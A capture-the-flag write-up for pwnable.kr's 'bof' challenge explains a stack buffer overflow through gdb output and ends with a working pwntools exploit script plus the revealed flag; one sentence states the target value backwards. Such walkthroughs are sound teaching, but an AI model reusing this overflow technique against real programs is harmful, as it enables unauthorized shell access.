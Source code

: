 ```yaml
---
title: "pwnable.kr - bof"
pubDate: 2024-04-07
intro: "Nana told me that buffer overflow is one of the most common software vulnerability. Is that true?"
tag: ctf
author: lnjng
---
```


Welcome to my first CTF writeup. I've decided to do this on a recent challenge I solved, **bof** on 
**pwnable.kr**. In case you are not aware, CTFs, or Capture The Flag, is a type of competition in the
cybersecurity world. It is very fun and can allow you to be exposed to a variety of topics, from 
reverse engineering to web security.

Without further ado, let's analyze the C file that we get from the chall. Notice what the `func`
function does:

```c 
void func(int key) {
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);       // smash me!
    if (key == 0xcafebabe) {
        system("/bin/sh");
    }
    else {
        printf("Nah..\n");
    }
}
```

At the if statement, we see that `key == 0xcafebabe` compares a `key` that is passed into the function
with a preset password, `0xcafebabe`. When examining the calling statement:

```c
int main(int argc, char* argv[]) {
    func(0xdeadbeef);
    return 0;
}
```

We see that it is called from the main function, with a value of `0xdeadbeef`. Thus, we need to find a 
way to alter the `0xcafebabe` stored in memory into `0xdeadbeef`. Notice that the `gets` function
doesn't check for buffer overflow when it reads into the `overflowme` buffer, which is coded to be 32
bytes. Thus (if it wasn't obvious by the name already), we can try to design a input that will overflow
and alter `0xcafebabe` into `0xdeadbeef`.

To examine how we can do this, open up the executable in `gdb`. The disassembly for `func`:

```
(gdb) disass func
Dump of assembler code for function func:
   0x0000062c <+0>:     push   ebp
   0x0000062d <+1>:     mov    ebp,esp
   0x0000062f <+3>:     sub    esp,0x48
   0x00000632 <+6>:     mov    eax,gs:0x14
   0x00000638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:    xor    eax,eax
   0x0000063d <+17>:    mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:    call   0x645 <func+25>
   0x00000649 <+29>:    lea    eax,[ebp-0x2c]
   0x0000064c <+32>:    mov    DWORD PTR [esp],eax
   0x0000064f <+35>:    call   0x650 <func+36>
   0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:    jne    0x66b <func+63>
   0x0000065d <+49>:    mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:    call   0x665 <func+57>
   0x00000669 <+61>:    jmp    0x677 <func+75>
   0x0000066b <+63>:    mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:    call   0x673 <func+71>
   0x00000677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:    je     0x688 <func+92>
   0x00000683 <+87>:    call   0x684 <func+88>
   0x00000688 <+92>:    leave
   0x00000689 <+93>:    ret
End of assembler dump.
```

Let's set a breakpoint at `0x00000654`, or the line with the `cmp` operation on `0xcafebabe`. Then, we
can examine the stack and figure out the correct offset for a buffer overflow:

```
(gdb) break *0x00000654
Breakpoint 2 at 0x00000654
(gdb) c
Continuing.
overflow me : 
AAA

Breakpoint 2, 0x00000654 in func ()
(gdb) x/50wx $esp
0xffffcf40:     0xffffcf5c      0x00000001      0xf7ffda30      0x0000001c
0xffffcf50:     0xffffffff      0xf7fca67c      0xf7ffd5e8      0x00414141
0xffffcf60:     0xf7ffcff4      0x0000000c      0x00000000      0x00000000
0xffffcf70:     0x00000000      0x00000000      0x00000013      0x860e8400
0xffffcf80:     0xf7c216ac      0xf7fd9d41      0xffffcfa8      0x5655569f
0xffffcf90:     0xdeadbeef      0xf7fc25d8      0xf7fc2ac0      0x00000001
0xffffcfa0:     0x00000001      0x00000000      0x00000000      0xf7c237c5
0xffffcfb0:     0x00000001      0xffffd064      0xffffd06c      0xffffcfd0
0xffffcfc0:     0xf7e1dff4      0x5655568a      0x00000001      0xffffd064
0xffffcfd0:     0xf7e1dff4      0x565556b0      0xf7ffcba0      0x00000000
0xffffcfe0:     0x412078ce      0x3ad012de      0x00000000      0x00000000
0xffffcff0:     0x00000000      0xf7ffcba0      0x00000000      0x860e8400
0xffffd000:     0xf7ffda30      0xf7c23756
```

Our `AAA` input starts at `0xffffcf5c`, and `0xdeadbeef` is at 0xffffcf90. This is an offset of 52 bytes,
which means we need to input 52 bytes and then overwrite it with `0xcafebabe`. Thus, our payload is:

```py
payload = 'A' * 52 + "\xbe\xba\xfe\xca"
```

Using [pwntools](https://github.com/Gallopsled/pwntools), we end up with our final exploit:

```py
from pwn import *

payload = 'A' * 52 + "\xbe\xba\xfe\xca"
conn = remote("pwnable.kr", 9000)
conn.send(payload)
conn.interactive()
```

This serves up a shell, with which we can run `cat flag` to get our flag.
<details>
    <summary> Flag: </summary>
    daddy, I just pwned a buFFer :)
</details>

